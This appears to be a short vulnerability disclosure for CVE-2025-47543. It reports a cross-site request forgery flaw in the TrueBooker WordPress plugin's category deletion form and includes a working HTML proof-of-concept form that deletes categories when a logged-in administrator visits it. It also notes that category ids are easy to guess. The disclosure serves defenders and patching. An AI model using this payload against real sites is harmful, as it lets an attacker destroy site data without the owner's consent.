


#CVE-2025-47543
1. Install and activate truebooker
2. At /wp-admin/admin.php?page=categories. TrueBooker plugin does not perform nonce or authentication token check in
the category deletion form. This allows an attacker to create a malicious page containing HTML code to send a category deletion request when the administrator accesses that link.

3. CSEF PoC:
<html>
<body>
<form action="http://172.29.145.68:9999/wp-admin/admin.php?page=categories" method="POST">
<input type="hidden" name="checked" value="" />
<input type="hidden" name="checked&#95;id&#91;&#93;" value="2" />
<input type="hidden" name="delete" value="Delete" />
<input type="submit" value="Submit request" />
</form>

</body>
</html>
4. Since the id of categories is an increasing number from 1, it can be guessed

5. The vulnerability can be successfully exploited if an administrator is logged in and visits a malicious page.
